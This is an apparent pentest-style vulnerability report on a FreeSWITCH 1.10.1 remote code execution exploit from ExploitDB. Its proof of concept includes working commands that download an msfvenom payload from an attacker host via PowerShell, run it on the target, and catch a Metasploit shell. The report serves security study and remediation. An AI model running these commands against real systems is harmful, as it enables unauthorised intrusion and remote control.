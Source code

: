 # Vulnerability Report : Free Switch 1.10.1 - Remote Code Execution (RCE)

* Severity : Critical


* Tool Used : Nmap + Searchsploit + Python


* CVE : No  
* EBD ID(ExploitDB ID) : 47799

 
* Impact : Allow to gain full control over the target System.


* Proof of Concept (POC):  

1. Search for freeswitch on the searchsploit : `searchsploit freeswitch`  
2. Copy the Available Script into your System : `searchsploit -m <exploit>`  
3. Then using Python Run the script, provide the IP of target and Command to execute on target system.  
```
python3 Freeswitch.py 192.168.0.104 'powershell Invoke-WebRequest -URI http://192.178.0.101/msfvenom_exploit.exe -o C:\TEMP\browser.exe'
```  
```
python3 Freeswitch.py 192.168.0.104 'C:\TEMP\browser.exe'
```  
4. Meanwhile, keep your metasploit listener running to get the shell access from the target system. 


* Recommendation:  
 -> Change the Default Password to a complex one.  
 -> If up-to-date version is available download from your software/service official repositiory.


* Attachments:  

![exploitDB](<screenshots/Screenshot 2025-05-27 142336.png>)  
![nmap](<screenshots/Screenshot 2025-05-27 140605.png>)  
![search](<screenshots/Screenshot 2025-05-27 140704.png>)  
![usage](<screenshots/Screenshot 2025-05-27 141023.png>)   
![shell](<screenshots/Screenshot 2025-05-27 141516.png>)  
![session](<screenshots/Screenshot 2025-05-27 142047.png>)



